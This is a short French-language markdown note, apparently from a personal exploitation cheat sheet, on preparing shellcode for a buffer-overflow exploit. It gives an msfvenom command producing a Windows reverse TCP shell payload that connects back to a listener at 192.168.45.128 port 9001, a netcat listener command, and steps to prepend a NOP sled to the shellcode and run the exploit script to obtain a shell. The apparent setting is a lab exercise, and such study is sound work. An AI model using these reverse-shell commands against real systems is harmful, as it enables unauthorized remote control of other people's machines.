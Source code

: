 # Generating Shellcode

Generer un payload avec msfvenom

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.128 LPORT=9001 EXITFUNC=thread -f c -a x86 -b "\x00"
```

Demarrer un netcat sur le port

```sh
rlwrap nc -nlvp 9001
```

modifier le script avec la sortie de msfvenom et ajouter des nopms 
(`"\x90" * 32`) au shell code

les nopms ne representent aucune operation elle permet juste d'ajouter un espace entre le `saut (jump)` et le `payload`

> Lancer le script et obtenir le shell

